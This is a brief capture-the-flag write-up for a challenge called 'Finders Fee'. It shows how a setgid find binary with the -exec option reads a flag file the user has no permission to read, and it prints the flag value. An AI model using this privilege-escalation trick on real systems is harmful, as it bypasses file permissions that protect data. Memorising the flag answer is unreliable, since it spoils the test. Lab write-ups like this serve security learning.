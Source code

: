 # Finders Fee

You gotta make sure the people who find stuff are rewarded for you are rewarded well!

-----

Connecting to the instance, we can immediately attempt to find the flag based on the challenge name:

```
$ find / -type f -name *flag.txt* 2>/dev/null
/home/finder/flag.txt
```

However, we do not have `read` access to `/home/finder` as we are just `user`.

Looking at the permissions for the `find` binary, we see that it has the `s` bit set on the group permission group.

```
$ ls -l /usr/bin/find
-rwxr-sr-x 1 root finder 204264 Apr  8  2024 /usr/bin/find
```

When executed, this elevates our privileges temporarily to the `finders` group.

Running our initial `find` command and the `-exec` option allows us to read the flag:

```
$ find / -type f -name *flag.txt* 2>/dev/null -exec cat
{} \;
flag{63a10f0440218364424b20f9ddf6ad39}
```